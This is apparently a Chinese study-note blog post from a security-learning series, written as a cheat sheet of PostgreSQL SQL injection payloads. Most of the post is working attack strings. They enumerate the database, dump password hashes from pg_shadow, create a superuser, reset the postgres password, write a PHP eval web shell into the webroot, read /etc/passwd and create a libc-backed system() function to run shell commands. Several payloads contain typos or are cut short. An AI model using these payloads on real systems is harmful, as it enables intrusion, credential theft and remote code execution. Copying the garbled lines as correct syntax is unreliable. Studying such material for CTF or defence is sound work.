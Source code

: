 ```yaml
---
layout:     post
title:      Web笔记（五）SQL注入之PostgreSQL
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是PostgreSQL的SQL注入。
date:       2020-11-29
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - PostgreSQL
---
```




## 0x00 PostgreSQL介绍
postgresql是以加州大学伯克利分校计算机系开发的POSTGRES，现在已经更名为PostgreSQL，版本4.2为基础的对象关系型数据库管理系统（ORDBMS）。

PostgreSQL支持大部分SQL标准并且提供了许多其他现代特性：复杂查询、外键、触发器、视图、事务完整性、MVCC。同样，PostgreSQL可以用许多方法扩展，比如，通过增加新的数据类型、函数、操作符、聚集函数、索引。

免费使用、修改、和分发PostgreSQL，不管是私用、商用、还是学术研究使用。



## 0x01 常用场景

php+PostgreSQL



## 0x02 常用注入攻击

#### 1. 判断是否为PostgreSQL数据库
```
id=1+and+1::int=1-- 
```

#### 2. 判断数据库版本信息
```
id=1+and+1=cast(version() as int)-- 
```

#### 3. 判断当前用户
```
id=1 and 1=cast(user||123 as int)-- 
```

#### 4. 判断有多少字段
```
id=1 order by N -- 
id=-1 union select null,null,null -- 
id=-1 union select null,user,null -- 		判断当前用户，user是函数，不用加括号
```

#### 5. 判断数据库版本信息
```
id=-1 union select null,version(),null-- 
```

#### 6. 判断用户权限
```
id=-1+union+select+null,current_schema(),null--
```

#### 7. 判断当前数据库名称
```
id=-1+union+select+null,current_database(),null
```

#### 8. 判断当前表名
```
id=-11+union+select+null,rel
```

#### 9. 列字段内容
```
id=-1+union+select+null,name||pass,nul+from+admin
```

#### 10. 查看PostgreSQL数据库的账号密码

```
id=-1+union+select+null,username||chr(124)||passwd,null+from+pg_shadow
```

#### 10. 创建用户

- 创建用户

```
id=1;create+user+seven+with+superuser+password+'seven'-- 													
```

- 修改PostgreSQL的用户密码为123456

```
id=1;alter+user+postgres+with+password+'123456'-- 
```

#### 11. 写shell

- 直接拿shell

```
id=1;create table shell(shell text not null); -- 
id=1;insert into shell values($$<?php @eval($_POST[cmd]);?>$$); -- 
id=1;copy shell(shell) to '/var/www/html/shell.php' -- 
```

- 或者直接一个命令写shell

```
id=1;copy (select '$$<?php @eval($_POST[cmd]);?>$$') to 'c:/xxx/wwwroot/test.php' -- 
```

#### 12. 读取文件前20行
```
id=1;pg_read_file('/etc/passwd',1,20) -- 
```

#### 13. 创建system函数
用于版本大于8的数据库。

```
# 创建一个system的函数
id=1;create FUNCTION system(ctring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT -- 

# 创建一个输出表
id=1;create table stdout(id serial, system_out text) -- 

# 执行shell，输出到输出表内
id=1;select system('uname -a >/tmp/test') -- 

# copy输出的内容到表里面
id=1;COPY stdout(system_out) FROM '/tmp/test' -- 

# 从输出表内读取执行后的回显，判断是否执行成功
id=-1 union all select NULL,(select stdout from system_out order by id desc),NULL,limit 1 offset 1 -- 
```



## 0x03 数据库备份还原

#### 1. 备份数据库

```
# 本地备份
pg_dump -O -h 192.168.0.5 -U postgres -d mdb >c:/mdb.sql

# 从远程备份数据库到本地
pg_dump -O -h 192.168.0.5 -U dbowner -w -p 5432 SS >SS.sql
```

- \-h 指定数据库主机名
- \-U 指定用户名
- \-O 指定在明文格式中，忽略恢复对象所有者，即no-owner
- \-w 指定不提示输入口令，即no-password
- \-p 指定端口号
- \-d 指定备份的数据库名也可以不指定，直接写在倒数第二项

#### 2. 还原数据库

```
psql -h localhost -U postgres -d mdb
```



## 0x04 其他注意点

postgresql的用户如果是postgre，其权限相当于系统root权限。
